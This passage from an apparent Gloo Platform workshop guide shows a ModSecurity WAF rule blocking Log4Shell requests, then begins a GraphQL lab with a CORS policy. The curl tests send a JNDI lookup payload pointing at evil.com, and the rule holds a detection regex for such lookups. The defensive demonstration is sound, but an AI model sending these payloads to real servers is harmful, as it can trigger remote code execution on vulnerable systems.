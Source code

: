 ```yaml
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://"
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

4. Try the previous request again on multiple endpoints

```sh
# Products API
curl -ik -X GET -H "x-api-key: developer" -H "User-Agent: \${jndi:ldap://evil.com/x}" https://$GLOO_GATEWAY_HTTPS/products

# Currency API
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/currencies
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your applications are no longer susceptible to `log4j` attacks, nice!


## Lab 12 - Graphql<a name="graphql"></a>

GraphQL is an open-source data query language for APIs that is growing in popularity among enterprises seeking to simplify client-server interactions. It provides a powerful and flexible alternative to standards like OpenAPI for requesting data from microservices applications via declarative data fetching, with a client specifying exactly what data it needs from an API and underlying services through a single endpoint.

Although GraphQL provides a consistent and predictable API, the code, time, and effort required to build the GraphQL server to respond to requests can be considerable, requiring developers to write specific libraries for caching, security, rate-limiting, failover, and many other functions.

In this section, we will begin our exploration of using Gloo Platform to publish GraphQL APIs without the need for a dedicated, backend GraphQL server.

* To enable graphql we are going to add a demo `CORSPolicy` to make communicating with the GraphQL easy
```yaml
kubectl apply -f -<<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: CORSPolicy
metadata:
  name: cors-policy
  namespace: online-boutique
spec:
  applyToRoutes:
  - route:
      labels:
        ingress: all
  config:
    allowCredentials: true
    allowHeaders:
```